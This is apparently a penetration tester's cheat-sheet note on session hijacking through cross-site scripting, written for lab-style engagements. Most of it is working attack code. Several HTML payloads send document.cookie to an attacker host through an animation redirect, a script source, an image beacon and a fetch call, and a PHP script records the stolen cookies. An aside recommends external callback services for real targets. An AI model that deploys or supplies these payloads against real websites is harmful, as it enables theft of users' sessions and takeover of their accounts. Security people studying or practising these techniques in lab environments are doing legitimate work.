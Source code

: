 [[Pentest/Vulns/Sessions/XSS]]

If HttpOnly is off:
[[HttpOnly]]
```html
"><img src=x onerror=prompt(document.domain)>

"><img src=x onerror=confirm(1)>

"><img src=x onerror=alert(1)>

<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>

	
<script src="http://10.10.14.204:8888/?test=1" />
```

Server for recieving cookies:
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

**N.B.** Use https://app.interactsh.com/#/ or Burp Collaborator for real word (bc of https)

HTTPS payload
```html
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
if CORS and SOP policy allows ajax-requests [[CORS]] [[SOP]]
```html
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```
